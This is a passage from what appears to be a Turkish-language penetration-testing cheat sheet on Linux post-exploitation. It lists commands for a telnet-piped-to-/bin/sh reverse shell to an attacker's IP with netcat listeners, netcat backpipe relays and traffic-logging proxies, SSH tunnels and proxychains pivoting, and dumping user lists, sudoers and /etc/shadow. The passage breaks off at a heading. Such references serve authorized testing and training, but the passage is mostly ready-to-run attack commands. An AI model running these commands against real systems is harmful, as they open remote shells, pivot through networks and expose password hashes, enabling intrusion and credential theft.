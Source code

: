     arp -e
    route
    /sbin/route -nee

### Canlı Trafik Dinleme 

    tcpdump tcp dst 192.168.1.7 80 and tcp dst $IPtarget

### Sistemde Bir Kabuk Alabiliyor muyuz

    nc -lvp 4444    # Attacker. Input (Commands)
    nc -lvp 4445    # Attacker. Ouput (Results)
    telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!

### Port Yönlendirme Mümkün mü

    FPipe.exe -l 80 -r 80 -s 80 $IP

    ssh -L 8080:127.0.0.1:80 root@192.168.1.7    # Local Port
    ssh -R 8080:127.0.0.1:80 root@192.168.1.7    # Remote Port

    mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe    # Port Relay
    mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe    # Proxy (Port 80 to 8080)
    mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe    # Proxy monitor (Port 80 to 8080)

### Tünelleme Yapmak Mümkün mü

    ssh -D 127.0.0.1:9050 -N [username]@[ip]
    proxychains ifconfig

### Gizli Bilgiler ve Kullanıcılar

    id
    who
    w
    last
    cat /etc/passwd | cut -d: -f1    # List of users
    grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users
    awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users
    cat /etc/sudoers
    sudo -l
### Bulunabilecek Hassas Dosyalar

    cat /etc/passwd
    cat /etc/group
    cat /etc/shadow
    ls -alh /var/mail/
### Ana Dizinlerde İlginç Birşey Var mı
